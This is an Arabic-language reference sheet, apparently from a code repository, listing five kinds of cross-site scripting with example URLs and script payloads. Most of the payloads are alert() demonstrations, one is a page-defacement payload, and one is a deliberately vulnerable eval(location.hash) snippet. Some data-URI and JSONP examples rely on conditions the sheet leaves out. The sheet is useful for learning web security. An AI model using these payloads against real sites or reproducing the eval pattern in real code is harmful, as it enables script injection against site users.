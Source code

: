 
# أنواع ثغرات XSS مع أمثلة

## 1. XSS غير المنعزلة (Reflected XSS)
**الوصف**: يحدث عندما يتم إدخال كود في طلب HTTP ويتم إرجاعه مباشرة في استجابة الصفحة.

**مثال**:
```plaintext
https://example.com/search?q=<script>alert('XSS')</script>
```

---

## 2. XSS المخزنة (Stored XSS)
**الوصف**: يحدث عندما يتم تخزين كود JavaScript في قاعدة بيانات ويُعرض لاحقًا على المستخدمين.

**مثال**:
إذا قمت بإدخال الكود التالي في نموذج تعليقات:
```html
<script>alert('Stored XSS')</script>
```

---

## 3. XSS باستخدام data URIs
**الوصف**: استغلال ثغرات XSS من خلال تحميل كود JavaScript باستخدام data URIs.

**أمثلة**:
- **Alert**:
    ```plaintext
    https://example.com#data:text/javascript,alert('Hello from Data URI!')
    ```

- **تغيير عنوان الصفحة**:
    ```plaintext
    https://example.com#data:text/javascript,document.title='Hacked Title'
    ```

- **إدخال نص في صفحة**:
    ```plaintext
    https://example.com#data:text/javascript,document.body.innerHTML='<h1>You have been hacked!</h1>'
    ```

- **تنفيذ دالة بعد فترة**:
    ```plaintext
    https://example.com#data:text/javascript,setTimeout(() => alert('Executed after 2 seconds!'), 2000)
    ```

- **إضافة رسالة إلى وحدة التحكم**:
    ```plaintext
    https://example.com#data:text/javascript,console.log('This is a log from Data URI!')
    ```

- **استدعاء دالة موجودة**:
    ```plaintext
    https://example.com#data:text/javascript,existingFunction()
    ```

---

## 4. DOM-based XSS
**الوصف**: يحدث عندما يتم تعديل DOM من خلال كود JavaScript على الصفحة، مما يسمح بتنفيذ أكواد ضارة.

**مثال**:
إذا كان هناك كود JavaScript في الصفحة يقوم بتنفيذ كود بناءً على معلمات URL:
```javascript
var userInput = location.hash.substr(1); // يتم أخذ البيانات من الـ hash
eval(userInput); // يؤدي إلى تنفيذ الكود
```
يمكنك استخدام:
```plaintext
https://example.com#alert('DOM XSS')
```

---

## 5. XSS عبر الـ JSONP
**الوصف**: يحدث عندما تسمح التطبيقات باسترجاع بيانات عبر JSONP، مما يُمكن المهاجم من إدخال كود JavaScript.

**مثال**:
```plaintext
https://example.com/api?callback=<script>alert('JSONP XSS')</script>
```

---
